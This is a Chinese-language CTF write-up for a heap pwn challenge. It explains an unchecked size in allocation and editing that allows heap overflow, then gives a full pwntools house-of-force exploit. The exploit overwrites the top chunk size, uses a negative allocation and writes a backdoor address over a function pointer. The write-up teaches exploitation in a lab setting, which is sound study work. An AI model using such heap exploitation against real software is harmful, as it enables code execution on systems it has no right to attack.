

malloc申请的时候，对size(也就是v2)没有进行检查




然后edit函数中，对size没有进行检查，因此这里存在堆溢出。


### 大致思路：

通常来说，能利用这几点的话，是打不了house of force的，因为没有top chunk的地址。但是这道题比较特殊的是我们只需要将top chunk放到函数指针的堆块即可。而top chunk和该堆块是存在固定的偏移的，也就是`request_size=target_addr-0x20-victim`中的target_addr-victim的值我们是知道的。因此并不需要知道top chunk的地址也可以完成house of force攻击。

1、申请一个堆块，然后利用edit中的溢出，修改top chunk的size位为0xffffffffffffffff

2、然后看一下top chunk和存在函数指针的那个chunk的偏移(如下图)



然后再减去0x20，最后得到偏移为0x60

3、将top chunk更新到指针堆块的位置。

4、将指针堆块申请出来，写入后门地址即可。

### EXP：

```py
from tools import *
context.log_level='debug'
p,e,libc=load('a')
#libc=ELF('libc32.so')
context.os='linux'
#p=remote('node4.buuoj.cn',25708)
c_a=0x400E90
c_d=0x400EA8
c_e=0x400E9C
def add(length,context):
    p.sendlineafter("Your choice:",'2')
    p.sendlineafter("Please enter the length of item name:",str(length))
    p.sendlineafter("Please enter the name of item:",context)

def edit(index,length,context):
    p.sendlineafter("Your choice:",'3')
    p.sendlineafter("Please enter the index of item:",str(index))
    p.sendlineafter("Please enter the length of item name:",str(length))
    p.sendafter("Please enter the new name of the item:",context)

def delete(index):
    p.sendlineafter("Your choice:",'4')
    p.sendlineafter("Please enter the index of item:",str(index))
    
add(0x20,'aaaa')
#debug(p,c_a,0x400AB8)
edit(0,0x30,b'\x00'*0x28+p64(0xffffffffffffffff))
add(-0x60,'bbbbbc')
add(0x10,p64(0xdeadbeef)+p64(0x400D49))
p.sendlineafter("Your choice:",'5')
p.interactive()
```



远程用unlink打，我这里仅仅是通过这道题来演示house of force